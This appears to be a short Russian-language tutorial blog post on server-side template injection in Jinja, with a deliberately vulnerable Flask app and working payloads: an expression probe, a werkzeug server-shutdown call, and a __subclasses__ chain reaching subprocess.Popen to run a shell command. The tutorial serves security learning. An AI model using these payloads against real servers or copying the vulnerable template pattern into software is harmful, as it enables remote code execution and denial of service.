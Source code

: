 ```yaml
---
published: true
title: Server Side Template Injection (SSTI) в Jinja
---
```


Jinja это шаблонизатор для Python приложений, таких как Django и Flask. Шаблонизатор в модели mvc отвечает за представление (view).
Он генерирует HTML на основе статических шаблонов динамически добавляя в них элементы.
Иньекция позволяет атакующему выпонить вредоносный код в шаблоне.

###### Встроеные функции Jinja
* `{% raw %}{{var}} {% endraw %}` - переменная
* `{% raw %}{% condition %}{% endraw %}` - выражение
* ...

###### Пример приложение с уязвимостью
Для примера создадим Flask приложение с уязвимостью.
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def flask_ssti():
    name = "World"
    if request.args.get('name'):
        name = request.args.get('name')
    template = '''
        <!doctype html>
        <h1>Hello %s!</h1>
        <form>
            <input type="text" name="name">
        </form>
    ''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(debug=True)
```

###### Пример атаки
Попробуем подставить в уязвимый параметр выражение `{%raw%}{{1+1}}{%endraw%}`

![ssti1](/images/ssti1.png)

###### К чему мы получаем доступ
* к объекту `request`
* к объекту `config`
* к переменным jinja


###### Остановка сервера
В случае если мы используем werkzeug следующий payload приведет к остановке сервера
```console
{% raw %}{{ request.environ['werkzeug.server.shutdown']() }} {% endraw %}
```

###### Remote Code Execution

```python
{% raw %}{{ ''.__class__.__mro__}} # find <class 'object'>
{{ ''.__class__.__mro__[1].__subclasses__()}} # find <class 'subprocess.Popen'>
{{ ''.__class__.__mro__[1].__subclasses__()[282]('touch /tmp/rce',shell=True) }}{% endraw %}
```

![ssti2](/images/ssti2.png)

##### Links
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
* [https://0day.work/jinja2-template-injection-filter-bypasses/](https://0day.work/jinja2-template-injection-filter-bypasses/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
* [https://nvisium.com/blog/2015/12/07/injecting-flask.html](https://nvisium.com/blog/2015/12/07/injecting-flask.html)
* [http://jinja.pocoo.org/](http://jinja.pocoo.org/)
* [https://github.com/epinna/tplmap](https://github.com/epinna/tplmap)